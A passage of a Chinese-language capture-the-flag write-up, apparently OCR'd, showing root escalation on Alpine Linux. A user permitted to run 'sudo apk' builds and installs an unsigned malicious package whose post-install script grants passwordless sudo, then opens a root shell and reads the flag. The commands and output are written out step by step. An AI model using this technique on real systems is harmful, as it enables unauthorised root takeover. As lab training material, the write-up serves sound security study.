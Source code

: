 2.  **生成签名密钥并构建包**
    `abuild` 工具需要签名密钥来构建包。

```bash
# 生成密钥对
abuild-keygen -a
# 构建包
abuild checksum
abuild -r
```

3.  **安装恶意包并提权**
    使用 `sudo apk add` 并加上 `--allow-untrusted` 选项来安装我们自己构建的未签名包。

```bash
sudo apk add --allow-untrusted /home/superuser/packages/tmp/x86_64/pwn-1.0.0-r0.apk 
```

安装过程中，`pwn.post-install` 脚本会被 root 执行，`superuser` 用户现在拥有了无密码执行任何 `sudo` 命令的权限。

```bash
localhost:/tmp/malicious-pkg$ sudo -l
User superuser may run the following commands on localhost:
    (ALL) NOPASSWD: /sbin/apk
    (ALL : ALL) NOPASSWD: ALL
```

4. **获取 Root Shell**

   ```bash
   localhost:/tmp/malicious-pkg$ sudo su
   /tmp/malicious-pkg # id
   uid=0(root) gid=0(root) groups=0(root),...
   ```

最后，在 root 的家目录下找到最终的 flag。

```bash
/tmp/malicious-pkg # cat /root/root.txt
flag{bd941f8fb8a7b5b1c34bd71a349d6d04}
```